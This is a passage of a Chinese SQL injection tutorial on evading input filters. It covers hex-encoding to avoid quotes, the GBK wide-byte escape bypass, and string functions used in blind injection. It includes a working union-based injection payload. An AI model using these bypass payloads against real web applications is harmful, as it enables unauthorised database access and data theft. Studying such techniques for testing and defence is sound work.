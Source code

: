 ### <font style="color:rgb(79, 79, 79);">10.对单引号的绕过</font>
#### 使用十六进制
<font style="color:rgb(77, 77, 77);">会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：</font>

```sql
select column_name  from information_schema.tables where table_name="users"
```

<font style="color:rgb(77, 77, 77);">这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。</font>  
<font style="color:rgb(77, 77, 77);">users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：</font>

```sql
select column_name  from information_schema.tables where table_name=0x7573657273
```

#### 宽字节绕过
<font style="color:rgb(77, 77, 77);">过滤单引号时，可以试试宽字节</font>

<font style="color:rgb(77, 77, 77);">过滤 ' 的时候往往利用的思路是将 ' 转换为 ' 。</font>

<font style="color:rgb(77, 77, 77);">在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字</font>

<font style="color:#601bde;">%df</font><font style="color:rgb(77, 77, 77);"> 吃掉 \ 具体的方法是 urlencode(’) = </font><font style="color:#601bde;">%5c%27</font><font style="color:rgb(77, 77, 77);">，我们在 </font><font style="color:#601bde;">%5c%27</font><font style="color:rgb(77, 77, 77);"> 前面添加 </font><font style="color:#601bde;">%df</font><font style="color:rgb(77, 77, 77);"> ，形成</font><font style="color:#601bde;">%df%5c%27 </font><font style="color:rgb(77, 77, 77);">，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，</font><font style="color:#601bde;">%df%5c</font><font style="color:rgb(77, 77, 77);"> 就是一个汉字，</font><font style="color:#601bde;">%27</font><font style="color:rgb(77, 77, 77);"> 作为一个单独的 ’ 符号在外面：</font>

```sql
id=-1%df%27union select 1,user(),3--+
```

### 11.对于逗号的绕过
<font style="color:rgb(77, 77, 77);">sql盲注时常用到以下的函数：</font>

```sql
substr()
substr(string, pos, len):从pos开始，取长度为len的子串
substr(string, pos):从pos开始，取到string的最后

substring()
用法和substr()一样

mid()
用法和substr()一样，但是mid()是为了向下兼容VB6.0，已经过时，以上的几个函数的pos都是从1开始的

left()和right()
left(string, len)和right(string, len):分别是从左或从右取string中长度为len的子串

limit
limit pos len:在返回项中从pos开始去len个返回值，pos的从0开始

ascii()和char()
ascii(char):把char这个字符转为ascii码
char(ascii_int):和ascii()的作用相反，将ascii码转字符
```
